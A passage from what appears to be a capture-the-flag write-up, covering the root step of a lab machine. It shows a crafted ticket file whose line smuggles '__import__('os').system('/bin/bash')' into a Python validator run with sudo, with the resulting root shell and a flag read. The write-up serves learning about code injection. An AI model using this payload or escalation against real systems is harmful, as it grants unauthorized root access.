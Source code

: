 ```python
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

If you aren't familiar with Python this script may baffle you!

Looking back at the vulnerable.md file again we can see it is a template to the format needed:

```text
development@bountyhunter:~$ cat vulnerable.md 
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**32+__import__('os').system('/bin/bash')
```

The script is checking the first three lines are as the example, then it splits the last line in to three parts. The two lines that you need to use to calculate the required sum are:

```text
if int(ticketCode) % 7 == 4:
```

This means the number in your ticket, which is provided in the template above as 32, has to be divisble by 7 and have 4 remainder. I used [this](https://www.calculators.org/math/modulo.php) site to calculate ny number.

```text
if validationNumber > 100:
```

This is a secondary check that just means the number you've picked above also needs to be greater than 100. Here's my final ticket:

```text
development@bountyhunter:~$ cat pencer.md 
# Skytrain Inc
## Ticket to root
__Ticket Code:__
**200+ 10 == 210 and __import__('os').system('/bin/bash') == True
```

## Root Flag

Now I can run the python script as root and point it at my ticket:

```text
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
pencer.md
Destination: root

root@bountyhunter:/home/development# id
uid=0(root) gid=0(root) groups=0(root)

root@bountyhunter:/home/development# cat /root/root.txt
<HIDDEN>
```

All done. See you next time.
